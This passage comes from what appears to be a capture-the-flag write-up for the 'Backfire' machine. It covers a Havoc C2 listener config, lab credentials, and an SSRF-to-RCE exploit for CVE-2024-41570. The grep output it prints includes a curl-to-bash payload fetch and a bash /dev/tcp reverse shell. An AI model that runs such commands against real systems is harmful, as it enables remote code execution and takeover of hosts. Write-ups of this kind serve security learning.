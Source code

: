 ```json
    Http {
        Name = "Demon Listener"
        Hosts = [
            "backfire.htb"
        ]
        HostBind = "127.0.0.1" 
        PortBind = 8443 
        PortConn = 8443
        HostRotation = "round-robin"
        Secure = true
    }
}
```

Key points:
- Credentials: `ilya:CobaltStr1keSuckz` and `sergej:w4nt2sw1tch2h4rdh4tc2`
- Some local ports: 8443, 40056

## Unauthenticated SSRF - CVE

Trying to use the credentials with `ssh` amounts to nothing. 

Searching for vulnerabilities on *Havoc* I found this blog post [SSRF on Havoc C2](https://blog.chebuya.com/posts/server-side-request-forgery-on-havoc-c2/). The post explains the CVE: **CVE-2024-41570** and is authored by one of the machine authors: *chebuya* 

In the interest of time I found a POC for the CVE: [CVE-2024-41570-Havoc-C2-RCE](https://github.com/thisisveryfunny/CVE-2024-41570-Havoc-C2-RCE) 

Before being able to run the exploit you have to change the Ip and ports for the exploit to work:
```bash
└─$ grep -ri "change" exploit.py payload.sh 
exploit.py:USER = "USERNAME" # CHANGE THIS
exploit.py:PASSWORD = "PASSWORD" # CHANGE THIS
exploit.py:host = "<IP>" # CHANGE THIS
exploit.py:port = <PORT> # CHANGE THIS
exploit.py:cmd = "curl http://<IP>:<PORT>/payload.sh | bash" # CHANGE THE IP AND THE PORT
payload.sh:bash -i >& /dev/tcp/<IP>/<PORT> 0>&1 # CHANGE THIS
```

You can can see a demo of the attack below:
{{ note(clickable=true, hidden=true, header="Demo of the attack", body="![POC of the exploit](https://private-user-images.githubusercontent.com/179417827/404711378-e57accee-6d1e-4633-aa32-a0ee07c42988.gif?jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbSIsImtleSI6ImtleTUiLCJleHAiOjE3NDk4MTk4MjcsIm5iZiI6MTc0OTgxOTUyNywicGF0aCI6Ii8xNzk0MTc4MjcvNDA0NzExMzc4LWU1N2FjY2VlLTZkMWUtNDYzMy1hYTMyLWEwZWUwN2M0Mjk4OC5naWY_WC1BbXotQWxnb3JpdGhtPUFXUzQtSE1BQy1TSEEyNTYmWC1BbXotQ3JlZGVudGlhbD1BS0lBVkNPRFlMU0E1M1BRSzRaQSUyRjIwMjUwNjEzJTJGdXMtZWFzdC0xJTJGczMlMkZhd3M0X3JlcXVlc3QmWC1BbXotRGF0ZT0yMDI1MDYxM1QxMjU4NDdaJlgtQW16LUV4cGlyZXM9MzAwJlgtQW16LVNpZ25hdHVyZT03YTVmYjk3MDRmMjU2ZTMwNjUyMDZjOWU2MzcxNjg5Y2Y0YTQ3MmVmNGE4Y2Y0ZDg3ZDdlMjFjNzc3YjUzMWE2JlgtQW16LVNpZ25lZEhlYWRlcnM9aG9zdCJ9._7o3j1ZRAunxxgAOnHItHN2ln0ABBCP5GnDwedrOzEY) ") }}


# Shell as ilya
